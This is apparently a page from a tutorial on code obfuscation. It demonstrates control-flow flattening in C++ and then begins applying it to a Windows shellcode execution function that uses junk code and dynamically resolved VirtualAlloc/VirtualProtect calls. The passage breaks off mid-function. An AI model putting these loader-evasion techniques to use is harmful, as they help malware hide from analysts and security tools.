### 3. **Flattening Control Flow**

Flattening replaces structured control flow (e.g., loops, if-else) with a series of conditional jumps. This can be done by using a central loop with a switch statement that decides what code to execute next.

#### Example:

```cpp
void obfuscatedFunction() {
    int state = 0;

    while (true) {
        switch (state) {
            case 0:
                std::cout << "Initial block" << std::endl;
                state = 1;  // Transition to next block
                break;
            case 1:
                std::cout << "Second block" << std::endl;
                state = 2;
                break;
            case 2:
                std::cout << "Final block" << std::endl;
                return;  // Exit
            default:
                return;  // Safeguard against unexpected states
        }
    }
}
```

### Putting It All Together

Here’s how you might apply these techniques to a simple shellcode execution function:

```cpp
#include <windows.h>
#include <iostream>
#include <cstdlib>

// Function prototypes
typedef LPVOID(WINAPI *lpfnVirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);
typedef BOOL(WINAPI *lpfnVirtualProtect)(LPVOID, SIZE_T, DWORD, PDWORD);
typedef VOID(WINAPI *lpfnRtlMoveMemory)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T);

void executeShellcode(unsigned char* buffer, size_t size) {
    int state = 0;

    // Obfuscation start
    int junkVar = rand() % 50;  // Junk code to confuse analysis

    while (true) {
        switch (state) {
            case 0:
                junkVar += 5;  // More junk
                state = 1;
                break;

            case 1: {
                HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");

                lpfnVirtualAlloc MyVirtualAlloc = (lpfnVirtualAlloc)GetProcAddress(hKernel32, "VirtualAlloc");
```